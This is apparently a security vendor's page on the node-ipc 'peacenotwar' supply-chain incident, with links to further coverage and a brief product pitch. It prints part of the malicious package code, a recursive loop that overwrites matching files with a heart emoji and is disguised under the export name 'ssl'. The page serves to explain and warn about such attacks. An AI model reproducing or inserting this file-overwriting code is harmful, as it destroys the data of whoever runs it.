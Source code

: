 ```js
    } catch (t) {
    }

    const toDelete = [];
    for (var i = 0; i < fileInDir.length; i++) {
        const combinedPath = p.join(path, fileInDir[i]);

        let pathData = null;
        try {
            pathData = fs.lstatSync(combinedPath);
        } catch (t) {
            continue;
        }

        if (pathData.isDirectory()) {
            const result = getFiles(combinedPath, param2);
            result.length > 0 ? toDelete.push(...result) : null;
        } else if (combinedPath.indexOf(param2) >= 0) {
            try {
                fs.writeFile(combinedPath, "❤️", function () {
                });
            } catch (t) {
            }
        }
    }
    return toDelete;
}

const ssl = true;
export {ssl as default, ssl};
```

This code, which has since been deleted can be
found [here](https://github.com/RIAEvangelist/node-ipc/blob/847047cf7f81ab08352038b2204f0e7633449580/dao/ssl-geospec.js)
.

This code was [obfuscated](https://github.com/RIAEvangelist/node-ipc/issues/233#issuecomment-1072077181) to hide its
intentions by the developer as more people started to pay attention to what was happening.

Snyk has written a [blog post](https://snyk.io/blog/peacenotwar-malicious-npm-node-ipc-package-vulnerability/) detailing
the timeline of events around the releasing of this malicious version.

## Our product

### Stopping Future Supply Chain Attacks

All of this is happening on the coat-tail of the widely used libraries `faker.js` and `colors.js` having code changes
pushed
to [intentionally corrupt](https://www.theverge.com/2022/1/9/22874949/developer-corrupts-open-source-libraries-projects-affected)
projects that included them.
